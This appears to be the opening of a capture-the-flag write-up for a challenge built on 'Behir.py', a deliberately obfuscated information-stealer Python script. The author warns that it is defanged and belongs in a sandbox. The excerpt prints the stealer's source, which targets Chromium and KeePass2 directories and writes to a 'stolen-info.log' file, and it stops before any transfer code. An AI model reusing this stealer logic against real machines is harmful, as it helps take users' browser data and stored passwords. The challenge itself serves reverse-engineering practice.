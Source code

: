 # Task  
The information stealer Behir.py ate everything - including the flag. It
should be somewhere in the malware. Be careful though, it's still a dangerous
monster.

Abjuri5t (John F)  
*Important note: In its default state, the script is "defanged" and shouldn't exfiltrate any stolen information. However, this can easily be changed and you may accidentally harm your computer while solving the challenge. PLEASE make sure that you run this malware in a virtual machine/isolated lab/sandboxed enviornment. The sample file is stored in an encrypted zip with the password "infected". I am not responsible if your sensitive information is stolen.

# Unzipped malware code  
Let's unzip the encrypted zip file and look at Behir.py:  
```  
tressym = "fa86075165f2630ff80397bf98323716"  
lightning = [".chrom"]  
adventure = '/'

import os  
import subprocess  
import socket  
import hashlib  
import time

def main():  
   ranger = int(time.time())  
   if(str(hashlib.md5(open(__file__, "rb").read()[43:]).hexdigest()) ==
tressym):  
       ether = -1  
       crawlingclaw = "who" + "ima"[::ether]  
       ether = ether + 1  
       owlbear = os.popen(crawlingclaw).read().split('\n')[ether]  
       lightning[ether] = lightning[ether] + "iu" + lightning[ether][ether -1] + adventure  
       pi = "PI.3.14159265"  
       yeti = "pass"  
       ether = ether + 1  
       ancestral = makesoul(yeti)   
       arcane = "_info.log"  
       ancestral[ether] = chr(123) + 'n' + makesoul(yeti)[ether].split('n')[ether]  
       gold = "stolen" + arcane  
       ancestral[ether] = 'w' + pi.split('.')[ether - ether] + ancestral[ether]  
       gold = gold.replace('_', '-')  
       for torrent in ancestral:  
           lightning.append(torrent)  
       ether = ether - ether  
       lightning.append(".kee" + yeti + '2' + adventure)  
       for fire in range(len(lightning)):  
           lightning[fire] = lightning[fire].replace('_', '-')  
           lightning[fire] = lightning[fire].replace('w', 'W')  
       bludgeoning = int(time.time())  
       if(bludgeoning - ranger <= 2):  
           evocation = len(lightning)  
           for castle in range(evocation): #Ya the ".keepass2/" one is ambitious... but I have seen malware do this  
               devour(lightning[castle], owlbear, gold)  
           for aboleth in range(evocation):  
               lightning.pop(ether)  
           circle("WPI")

def devour(poison, gods, tome):  
```